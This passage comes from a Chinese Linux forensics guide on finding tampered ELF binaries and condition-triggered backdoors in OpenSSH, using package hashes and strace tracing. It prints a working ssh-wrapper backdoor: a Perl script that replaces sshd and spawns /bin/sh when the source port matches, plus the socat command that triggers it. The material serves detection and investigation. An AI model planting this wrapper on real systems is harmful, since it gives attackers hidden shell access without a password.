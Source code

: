 #### 1.6.3 检查ELF文件
（1）文件校验
实际场景下很少做这种检查，因为这种方法难以在取证场景下大量快速的展开，消耗时间与人力代价很大。

下面以一个OpenSSH后门排查为例。

首先确定二进制归属与版本：
```shell
dpkg -S /usr/sbin/sshd
dpkg -l openssh-server
(RHEL下对应于rpm -qf /usr/sbin/sshd结果直接包含版本号)
```

接着去开源社区搜一下，下载对应的deb包或rpm包、bin包。通过解压或执行的方式获得其中的二进制文件，算一遍散列值进行比对。

```shell
# Debian-deb：
dpkg -X ./xxx.deb extract	#解压到extract目录
dpkg -i ./xxx.deb			#安装该deb包

# RHEL-rpm：
rpm2cpio xxx.rpm | cpio -div	#解压到当前目录
rpm -i xxx.rpm			#安装该rpm包

# bin文件：
chmod +x xxx.bin; ./xxx.bin
```
这类文件比较特殊，可以在虚拟机里面安装后获得二进制，再算散列值。

（2）进程分析
这种排查方式的代价更高，同时可能需要沙箱环境。如果这种进程分析搞不定可能还需要文件逆向分析。

以进程分析OpenSSH后门为例。starce -ff -p $sshd_pid可以捕获到的正常的SSH登录中抓到的账户名及密码。如果OpenSSH-Server被篡改了，那么在该部分往后应该会有读写文件或创建socket外发的操作，具体的操作取决于攻击者的手段与目的（窃取型的可以直接写到本地也可以创建socket外发，口令鉴权绕过的除了硬编码口令应该也会存在其他绕过手段）。实际操作起来还会有很多问题，时间代价与精力代价都很高。

下面是一些此类后门的相关文章。
https://www.cnblogs.com/bigdevilking/p/9535427.html
https://www.cnblogs.com/jouny/p/4688194.html
https://www.freebuf.com/news/153364.html
https://www.cnblogs.com/croso/p/5280783.html
https://www.moonsec.com/archives/1720

（3）逆向工程

略。

#### 1.6.4 条件触发型后门

在正常使用操作中，用户无法感知，只有满足一定条件下才能触发后门逻辑的后门。检查的重点在于文件是否被篡改。有以下几种方式能够帮助检查：1.包管理器自检；2.md5sum比对；3.查看文件内容。

下面是一个典型ssh-wrapper后门的形式。此后门要求连接ssh的源端口满足指定的条件就能出发任意密码登录。
```shell
cd /usr/sbin
mv sshd ../bin
vi sshd
>>>>>
#!/usr/bin/perl
exec"/bin/sh"if(getpeername(STDIN)=~/^..4A/);
exec{"/usr/bin/sshd"}"/usr/sbin/sshd",@ARGV;
<<<<<<
#netstat -ntuap结果无异常bind端口，无异常socket连接。但用socat指定源端口登录时会直接登陆上
socat STDIO TCP4:10.18.180.20:22,sourceport=13377
```
